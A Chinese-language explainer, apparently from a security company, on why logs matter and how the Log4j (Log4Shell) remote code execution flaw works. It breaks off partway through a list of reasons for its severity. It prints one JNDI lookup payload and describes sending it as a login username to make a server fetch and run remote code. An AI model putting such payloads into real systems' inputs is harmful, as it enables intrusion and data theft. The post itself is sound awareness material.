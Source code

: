log 就像是一台 24 小時全年無休的監視攝影機一樣，需要紀錄起重要事物的狀況。

那為什麼需要有 log 呢？這問題就像是「為什麼要有監視攝影機？」一樣，答案很簡單，因為出事的時候才有證據。就像行車記錄器一樣，裝了以後若不幸發生車禍，就可以協助判斷肇責。

舉個例子，假設我是 A 公司，我們公司是做購物網站的，而通常金流這一塊並不會自己做，而是會找其他做金流的廠商合作，在後端去「串接」金流服務商提供的功能，講白話一點就是：「當使用者要付款時，我把使用者導過去金流廠商的頁面，付款完再導回來我們網站」，相信有在網路上購物的大家應該很熟悉這個流程。

在這個過程中，雙方都必須留下紀錄，確保未來發生問題時有證據可以輔助說明。

例如說有天 A 公司突然接到一堆客訴說沒辦法付款，這時 A 公司直接打電話去金流商，罵說你們這什麼爛服務，怎麼突然壞掉，而金流商此時提供了伺服器的 log，說：「沒有啊，我們這邊從今天早上八點開始就沒有你們導過來的紀錄了，應該是你們的問題吧？」，後來 A 公司檢查了自己這邊的服務，確實是因為今天早上的版本更新出了問題而導致，跟金流商一點關係都沒有。

這就是 log 的重要性，當出事的時候你才有證據可以盤查，才能盡可能還原當初的狀況。

做開發者的大家都知道 log 很重要，所以 log 基本上是必備的，以網站後端來說，他可能會在交易發生錯誤時留下一筆 log，也有可能在發生非預期錯誤時寫下 log，或是用 log 紀錄 request 中的一些欄位，比如說瀏覽器版本好了，給自己公司內部的數據分析系統來使用。

因此 log 是個十分常見的功能。這也是為什麼如果這個功能出事了，造成的後果會非常嚴重。

## log4j 是什麼？

在寫網站後端的程式碼時，會有不同的程式語言可以選擇，例如說 Python、JavaScript、PHP 或是 Java 等等，而這些程式語言都會有些專門做 log 的套件，簡單來說就是有人已經幫你把功能都寫好了，你只要用就好了。

而 Java 有一個很好用的 log 套件，就叫做 log4j。而這個套件是隸屬於 Apache 軟體基金會底下，因此全名又叫做 Apache Log4j。

Apache 底下有很多不同的軟體跟套件，例如說：

* Apache HTTP Server（大家最常看到的是這個）
* Apache Cassandra
* Apache Tomcat
* Apache Hadoop
* Apache Struts
* ...

所以 Apache Server 跟 Apache log4j 完全是不同的兩個東西，我知道你用 Apache Server，跟你有沒有用 log4j 是兩件事情。

這次出問題的套件就是 log4j，而出問題的原因跟我開頭講的一樣，有一個鮮為人知的功能有著安全性的漏洞，只要 log4j 在記錄 log 時記錄到某個特定格式的東西，就會去執行相對應的程式碼，就像開頭提的那個「關機」的板板一樣。

再講更詳細一點，其實並不是直接執行程式碼，那一段特定格式長得像這樣：

```
${jndi:ldap://cymetrics.io/test}
```

先不要管那些你看不懂的字，你可以很明顯看到裡面有一段東西很像網址，對，它就是網址，當 log4j 紀錄上面那一串字的時候，它發現這串字符合特定格式，就會去裡面的網址（`cymetrics.io/test`）下載程式碼然後執行，因此這是一個 RCE（Remote Code Execution，遠端程式碼執行）漏洞。

前面我有提過後端會記錄許多東西，假設今天有個後端服務是用 Java 寫的，而它用 log4j 記錄了使用者登入失敗時輸入的帳號，這時我只要用 `${jndi:ldap://cymetrics.io/test}` 這個帳號登入，就能夠觸發 log4j 的漏洞，讓它執行我準備好的程式碼。

只要能執行程式碼，我就可以做很多事情，例如說把伺服器上的資料偷走，或是安裝挖礦軟體幫我挖礦等等。

## 為什麼這個漏洞如此嚴重？

第一，log4j 這個套件使用的人數極多，只要你有用 Java，幾乎都會用這個套件來紀錄 log

第二，觸發方式容易，你只要在 request 的各個地方塞滿這些有問題的字串，server 只要有記錄下來其中一個，就能夠觸發漏洞，而前面我們有提到紀錄 log 本來就是家常便飯的事情
